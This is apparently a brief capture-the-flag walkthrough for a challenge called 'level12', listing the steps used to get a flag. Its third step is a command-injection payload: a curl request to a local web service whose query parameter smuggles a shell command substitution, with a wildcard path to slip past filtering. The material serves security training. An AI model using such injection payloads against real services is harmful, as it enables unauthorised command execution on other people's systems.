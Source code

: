### External
```
Bash    GETFLAG
```

### Process
1. `./send level12 ./level12/Ressources/GETFLAG`

2. `cp GETFLAG /tmp`

3. `curl 'localhost:4646?x=$(/???/GETFLAG)'`

4. `cat /tmp/flag`